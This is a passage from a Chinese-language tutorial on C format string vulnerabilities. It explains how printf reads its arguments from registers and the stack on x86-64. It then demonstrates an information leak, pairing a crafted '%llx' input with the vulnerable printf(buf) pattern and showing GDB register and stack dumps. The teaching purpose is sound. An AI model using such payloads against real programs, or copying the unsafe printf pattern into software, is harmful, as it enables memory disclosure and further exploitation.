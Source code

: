 格式化字符串由普通字符和转换字符序列组成，普通字符会按原状进行输出，转换字符序列则会根据转换规则进行转换，然后将转换结果进行输出。在转换字符序列中转换指示符`%`是必备的，它标志着转换字符序列的开始，除此之外C语言还支持在转换指示符后添加扩展指示符，用于进一步指示参数的输出形式。

### **3.1.2 漏洞的利用**



当格式化字符串中存在转换字符序列时，函数就需要根据调用协议从寄存器和栈上取出参数。根据转换字符序列转换，结果的来源可以分成根据参数位置上的数值进行转换和根据参数位置上数值指向的内存区域内的数值进行转换两类。

```text
获取参数的方式：
前6个参数：rdi、rsi、rdx、rcx、r8、r9
第7个及以后的参数：栈
```



根据参数位置上的数值进行转换时，往往问题不会太大，最多是就是转换后

的结果看起来畸形，但是根据参数位置上数值指向的内存区域内的数值进行转换时，问题就很可能出现，比如因为参数位置上数值未必对应正确的内存地址，直接使用会导致错误发生。

### **3.1.2.1 信息的泄露**



当格式化字符串可以被自定定义时，就可以构造转换字符序列，从寄存器和栈中读取数据。比如构造格式化字符串为`"%llx.%llx.`......`%llx.%llx"`时，就可以直接暴露信息，下面给出了示例。

```text
构造的参数："%llx.%llx.......%llx.%llx
读取及输出：scanf("%s", buf);、printf(buf);

通过GDB查看printf函数调用时的寄存器信息：
(gdb) info registers rdi rsi rdx rcx r8 r9
rdi            0x7fffe50928e0      140737035970784
rsi            0xa                 10
rdx            0x0                 0
rcx            0x0                 0
r8             0xffffffff          4294967295
r9             0xffffffffffffff88  -120

前5个泄露信息(rdi被格式化字符串所在地址占用，所以从rsi开始)：
a.0.0.ffffffff.ffffffffffffff88

通过GDBG查看printf函数调用时的栈信息
(gdb) x /20x $rbp
0x7fffc19d3ac0: 0xc19d3ce0      0x00007fff      0x7be111d4      0x000063c7
0x7fffc19d3ad0: 0x786c6c25      0x6c6c252e      0x6c252e78      0x252e786c
0x7fffc19d3ae0: 0x2e786c6c      0x786c6c25      0x6c6c252e      0x6c252e78
0x7fffc19d3af0: 0x252e786c      0x2e786c6c      0x786c6c25      0x6c6c252e
0x7fffc19d3b00: 0x6c252e78      0x252e786c      0x2e786c6c      0x786c6c25
(gdb) x /s $rbp+0x10
0x7fffc19d3ad0: "%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx."...

第6-13个泄露信息：
6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.
```

